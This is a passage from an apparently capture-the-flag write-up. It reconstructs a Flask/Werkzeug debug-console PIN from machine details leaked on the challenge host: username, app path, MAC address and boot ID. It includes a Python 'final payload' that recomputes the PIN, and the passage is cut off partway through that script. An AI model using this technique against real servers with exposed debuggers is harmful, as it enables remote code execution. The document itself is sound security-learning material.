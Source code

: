 ```py
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

But the PIN code is wrong...

After around 3 hours of nothing. I found [this YouTube video writeup](https://www.youtube.com/watch?v=8dyoBfj7H8U), which helps me a LOT!

> Note: The `/etc/machine-id` and `/proc/self/cgroup` on the challenge machine are EMPTY, we can only have `/proc/sys/kernel/random/boot_id`. Also, the hashing algorithm MUST change to SHA1.

**Final public and private bits:**

- Public bits:
    - username: `yooboi` (From `/etc/passwd`)
    - modname: `flask.app`
    - `Flask`
    - The absolute path of `app.py` in the flask directory: `/usr/local/lib/python3.9/site-packages/flask/app.py`
- Private bits:
    - MAC address: `2485377892355`
    - **Boot ID: `e01d426f-826c-4736-9cd2-a96608b66fd8`**

**Final payload:**
```py
import hashlib
from itertools import chain
probably_public_bits = [
    'yooboi',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.9/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892355',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'e01d426f-826c-4736-9cd2-a96608b66fd8'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
```